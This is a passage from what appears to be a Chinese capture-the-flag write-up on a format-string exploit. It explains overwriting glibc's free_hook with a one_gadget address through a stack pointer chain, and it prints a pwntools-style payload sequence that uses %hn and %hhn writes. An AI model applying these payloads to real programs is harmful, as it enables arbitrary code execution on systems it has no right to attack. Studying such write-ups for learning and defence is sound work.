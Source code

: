 [![](assets/1701612457-954316e7f204aff7ecd149118e891da8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215005-dc196234-11cc-1.png)  
2.然后再用跳板把 free\_hook 改为 one\_gadget  
free\_hook (0x7fde287987a8) 与 one\_gadget (0x7fde2841727a) 也是后 6 位有区别，所以需要多步

```bash
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
```

第一步是先直接修改 free\_hook 的后四位，第二三步是把 \_libc\_start\_main+240 修改成了 free\_hook+2 (free\_hook 最后两位是 0xa8 , 0xa8+0x2=0xaa , 这个地址是用 libc 查找的，所以本地和远程后三位是一致的)，然后再用这种方法修改。

[![](assets/1701612457-4f2278ecf1e941ba9cb389299c25f141.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230623215645-ca52d746-11cd-1.png)
